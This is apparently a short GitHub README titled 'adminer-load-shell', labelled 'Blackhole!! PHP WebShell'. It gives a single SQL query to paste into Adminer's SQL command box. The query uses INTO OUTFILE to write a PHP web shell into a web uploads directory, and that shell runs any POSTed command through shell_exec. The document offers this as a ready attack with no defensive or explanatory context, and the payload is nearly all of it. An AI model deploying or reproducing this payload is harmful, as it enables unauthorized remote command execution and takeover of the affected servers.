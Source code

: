 # adminer-load-shell


</h1>
<h4 align="center">Blackhole!! PHP WebShell</h4>

<p align="center">
    <img src="https://img.shields.io/badge/release-Prv8-blue.svg">
    <img src="https://img.shields.io/badge/issues-0-red.svg">
    <img src="https://img.shields.io/badge/php-7-green.svg">
    <img src="https://img.shields.io/badge/php-5-green.svg">
</p>

1. SQL command `Query SQL` value
```
SELECT '<?php
if (isset($_POST["submit"])) {
    $cmd = $_POST["cmd"];
    echo "<pre>" . shell_exec($cmd) . "</pre>";
}
?>

<form action="" method="post">
    <input type="text" name="cmd" placeholder="Enter command" size="50" required>
    <input type="submit" name="submit" value="Execute">
</form>' INTO OUTFILE '/var/www/html/web/uploads/cmd.php'
FIELDS TERMINATED BY '' LINES TERMINATED BY '';
```
